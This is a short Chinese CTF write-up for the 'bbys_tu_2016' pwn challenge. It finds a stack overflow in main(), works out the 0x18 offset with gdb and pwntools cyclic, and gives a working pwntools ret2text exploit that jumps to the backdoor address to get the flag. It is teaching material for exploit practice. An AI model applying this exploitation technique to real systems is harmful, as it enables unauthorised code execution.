





1. `main`函数中存在溢出
2. 存在后门函数
3. 构造`payload`,`ret2text`就可以得到`flag`

难点在于我们很难通过ida得到我们要溢出的长度,需要手动计算,接下来是两种方法

- A,通过`gdb`得到溢出长度

  

  

  停在输入地址,输入,手动查看`ebp`下的返回地址,减去输入位置得到长度

- B.通过`cyclic`生成字符串,根据返回报错得到长度

  ```shell
  bamuwe@qianenzhao:~$ cyclic 30
  aaaabaaacaaadaaaeaaafaaagaaaha
  ```

  

  `gdb`调试输入后得到了这样一个报错

  ```shell
  bamuwe@qianenzhao:~$ cyclic -l 0x61616167
  24
  ```

  `-l`查询,得到栈溢出距离(`$esp~$ebp`)是$24$(0x18)

```python
from pwn import *
io = process('./bbys_tu_2016')
padding = b'A'*0x18
payload = padding + p32(0x0804856D)
io.sendlineafter(b'This program is hungry. You should feed it.\n',payload)
io.interactive()
```

> 远程与本地有不同,直接`io.sendline(payload)`即可

